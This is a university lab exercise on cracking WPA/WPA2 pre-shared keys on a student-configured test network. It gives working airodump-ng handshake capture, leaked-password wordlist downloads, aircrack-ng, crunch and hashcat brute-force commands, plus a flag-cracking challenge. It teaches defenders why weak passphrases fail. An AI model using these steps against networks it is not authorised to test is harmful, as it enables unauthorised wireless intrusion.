


```
__        ______   _    
\ \      / /  _ \ / \   
 \ \ /\ / /| |_) / _ \  
  \ V  V / |  __/ ___ \ 
   \_/\_/  |_| /_/   \_\
                        
```

In this lab, we will demonstrate the vulnerabilities with WPA. These vulnerabilities are evident in both WPA (TKIP) and WPA2 (CCMP) modes. It is hoped that it will provide you with:

* An accurate idea of the vulnerabilities in WPA 
* A good idea of how to securely implement WPA

## Configure WPA ##

Our first task is to configure WPA over the wireless network. Ensure that the wireless Windows PC can Ping the Wired PC. Refer to Basic AP Configuration if you need to. Please ensure that you keep the username as root and the password as admin. Use the WPA password: charlie12. Unlike the previous WEP cracking lab where we could pick any hex key, we must use a simple predictable password. When cracking WEP we were identifying the key based on a series of statistical attacks. Use **WPA2 Personal and TKIP+AES**.

Ensure that the wireless Windows PC can Ping the Wired PC. Refer to [WPA setion in Broadband_CPE_Scenarios](./broadband_cpe_senarios.md#wpa) if you need to. **Additionally, turn off the 5GHz radio and change the network mode on the 2.4 GHz radio to 802.11b/g Mixed. Remember that there are two radios, and you will need to set the 5GHz radio mode to disabled.**

In this WPA cracking lab, we are brute-forcing the key. We are only able to identify the key if it is part of our password database. The more complex the key, the less likely it will appear in a password database. An alternative way of looking at this, the longer and more complex the key, the longer and more complex our password database must be. This will also increase the amount of computation required to break the key.



## Aircrack and monitor mode ##

Follow the instructions here to put the Alpha USB Wifi adapter in monitor mode: [Alpha_USB_in_monitor_mode](./monitor_mode.md)

## Discover Network ##

We need to discover the channel and BSSID of our target network. Start Wireshark with:

	sudo wireshark

Put the interface in monitor mode and use wireshark to discover the bssid of the target. Copy this value to a text file for later.

### Collecting the handshake in Wireshark ###

Try capturing the encrypted handshake in wireshark. packets? Save the pcap on the Desktop.

### Using Aerodump ###

Another alternative is using airodump. Type:

	sudo iwconfig [interface_name] channel [x]

### Collecting the authentication handshake with airodump-ng ###

The purpose of this step is to run airodump-ng to capture the 4-way authentication handshake for the target AP. Enter:

	sudo airodump-ng -c [the_channel] --bssid [the_BSSID] -w psk [interface_name]

On your legitimately connected wireless machine, try disconnecting and reconnecting a few times.

## Crack the PSK ##

We are going to compare the four-way authentication handshake and compare it with a password list. Download a password list from the Internet. 

Note, if Kali Linux drops its LAN connection, you can bring it up with a:

 	sudo dhclient eth0

You can download a password list with:

<!-- wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt -->
	wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/Pwdb_top-1000000.txt

AND

<!-- wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords-1000000.txt -->
	wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/xato-net-10-million-passwords-1000000.txt

For a larger list you can try: 

	wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

The password list is generated from lists of leaked passwords. This list contains the most frequently used passwords. Some of the passwords in the list are offensive, please don't go looking if you are easily offended. If you ever discover your personal passwords in one of these password lists then you must change it immediately!

Crack the key with the following command:

	aircrack-ng filename_of_packets -w [full_path_of_password.list]

## Challenge ##

Ok, so what if the wordlist don't contain the password because the password isn't in the word list. Lets go to the other extreme and generate our own wordlist. Lets install crunch, a word list generator. 

	sudo apt install crunch

Ok now lets investigate how this works. Try:

	crunch 3 4 0123456789

This command will generate passwords between 3 and 4 chars long with only numbers 0-9 and output to the screen. How would we put this in a file? Easy, try: 

	crunch 3 4 0123456789 > wordlist

Do an 

	ls -lah wordlist

How big is the file? Ok so now lets include the lowercase alphabet as well.

	crunch 3 4 0123456789abcdefghijklmnopqrstuvwxyz > wordlist

How big is the file? Ok so now lets include the uppercase alphabet, still no special characters. 

	crunch 3 4 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ > wordlist

How big is the file? Hmmmm I still have a pretty reasonable 72 MB. Lets try increasing the size of the password to between 4 and 5:

	crunch 4 5 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ > wordlist

Ok so, a much bigger 5GB. Did you know that you can't actually set a password in WPA less than 8 characters? Ok, lets try that. Lets just generate random 8 character passwords.

	crunch 8 8 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ > wordlist

So I had a whopping 1787 TB! Yes, that is over 1 PB, PetaByte. I hope you can see the value in truly random passwords now! If you were going to do this, and you would need some serious hardware at your disposal, you would pipe the output of crunch into aircrack. Have a go at modifying the example below:

	crunch 8 8 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ | aircrack-ng -e dd-wrt -w - psk-0* .cap

## Kudos Challenge ##

On vonnegut, I have uploaded a file called: 

	lab_red.pcap

Can you crack the key? If you are working on this, please post your work or hopefully solution on the Teams site for massive kudos from the teaching staff and students! There are a couple of options that you could explore. You may even wish to combine elements of options 1 and 2 below, but I think this could be done with just option 1. You may not need massive GPU compute power if you use your brain a bit.

#### Option 1: Use some Open Source Intel ####

Ok, so you are cracking a test network setup by me. The passphrase is a flag, set by me. Now it is nothing personal related to me, but it may follow some similar formats to past flags that you have seen. Check out the hints below. Can you use the mentalist (https://en.kali.tools/?p#1310) wordlist generator to work smartly rather than throwing compute at the problem?

#### Option 2: Brute force with a GPU and Hashcat #### 

Can you brute force this key on a GPU? Check out the instructions below. So aircrack cannot utilize a GPU, but hashcat can. Start by installing hashcat:

	sudo apt install hashcat

Now we need to convert the aircrack hashes to hashcat. You can get some c code from here:

	wget https://raw.githubusercontent.com/hashcat/hashcat-utils/master/src/cap2hccapx.c

You then need to compile the c code.

	gcc -o cap2hccapx cap2hccapx.c

You can then provide execute permissions.

	chmod 755 cap2hccapx

You can convert from aircrack-ng formatto hashcat formate with:

	./cap2hccapx psk.cap dd-wrt

This should create a file called dd-wrt with the hashes in hashcat format. To use hashcat against the hashes with a password list.

	hashcat -m 2500 -o cracked dd-wrt 10-million-password-list-top-1000000.txt

Ok but if it is truly random then we can use crunch again.

	crunch 8 8 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ | hashcat -m 2500 -o cracked dd-wrt

I ran hashcat on an Nvidia GPU in Microsoft Azure at a cost of $1.50 per hour, I was nowhere close to searching the keyspace 17 hours and ~$25.00 later


### Hints ###

* The passphrase is a flag
* It is 8 chars long
* It only contains uppercase and lowercase letters. No numbers or special characters.

